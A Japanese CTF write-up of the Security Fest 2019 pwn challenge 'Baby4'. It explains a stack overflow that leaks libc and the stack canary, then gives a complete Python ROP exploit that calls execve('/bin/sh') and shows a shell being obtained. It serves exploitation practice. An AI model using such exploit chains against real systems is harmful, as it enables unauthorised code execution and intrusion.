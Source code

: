# [pwn 359pts] Baby4 - Security Fest 2019
64ビットで全部有効です。
```
$ checksec -f baby4
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable  FILE
Full RELRO      Canary found      NX enabled    PIE enabled     No RPATH   No RUNPATH   No Symbols      Yes	0		1	baby4
```

IDAで解析すると、1文字ずつスタック上のバッファに書き込んでいけるようです。
バッファサイズよりも多く書き込め、1文字ごとにバッファの内容を出力してくれるので、canaryを破壊することなくlibc leakしつつリターンアドレスを書き換えられそうです。
one gadgetを書き込めば良さそう。
なぜか`__libc_start_main`に戻らないmainだったので、`_dl_fini`のアドレスを使ってlibc leakしました。

```python
from ptrlib import *

libc = ELF("/lib/x86_64-linux-gnu/libc-2.27.so")
sock = Process("./baby4")

# leak libc base
payload = b'A' * 0x20
sock.recvuntil("<-- ")
sock.sendline(payload)
sock.recvuntil("--> ")
l = sock.recvline().rstrip()
addr_libc_start_main = u64(l[0x20:0x28])
libc_base = addr_libc_start_main - 0x4019a0
dump("libc base = " + hex(addr_libc_start_main))

# leak canary
payload = b'A' * 0x49
sock.recvuntil("<-- ")
sock.sendline(payload)
sock.recvuntil("--> ")
l = sock.recvline().rstrip()
canary = b'\x00' + l[0x49:0x50]
dump(b"canary = " + canary)

rop_pop_rdi = libc_base + 0x0002155f
rop_pop_rdx = libc_base + 0x00001b96
rop_pop_rsi = libc_base + 0x00023e6a
rop_pop_rax = libc_base + 0x000439c7
rop_syscall = libc_base + 0x000013c0

# stack overflow!
payload = b'A' * 0x48
payload += canary
payload += b'A' * 8
payload += p64(rop_pop_rdi)
payload += p64(libc_base + next(libc.find("/bin/sh")))
payload += p64(rop_pop_rsi)
payload += p64(0)
payload += p64(rop_pop_rdx)
payload += p64(0)
payload += p64(rop_pop_rax)
payload += p64(59)
payload += p64(rop_syscall)
sock.recvuntil("<-- ")
sock.sendline(payload)

# get the shell!
sock.recvuntil("<-- ")
sock.sendline("")

sock.interactive()
```

ほい。
```
$ python solve.py 
[+] Process: Successfully created new process (PID=12632)
[ptrlib] libc base = 0x7fcdc90b09a0
[ptrlib] b'canary = \x00$\xdf\xbd\xcc\xc4-G'
[ptrlib]$ id
uid=1000(ptr) gid=1000(ptr) groups=1000(ptr),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lpadmin),126(sambashare),999(docker)
[ptrlib]$ 
```

# 感想
libc配布されてないっぽいけどlibc databaseで出てくるのかな？
まぁBabyって書いてるし大丈夫でしょ。

# 参考文献
[1] [http://inaz2.hatenablog.com/entry/2014/07/27/205322](http://inaz2.hatenablog.com/entry/2014/07/27/205322)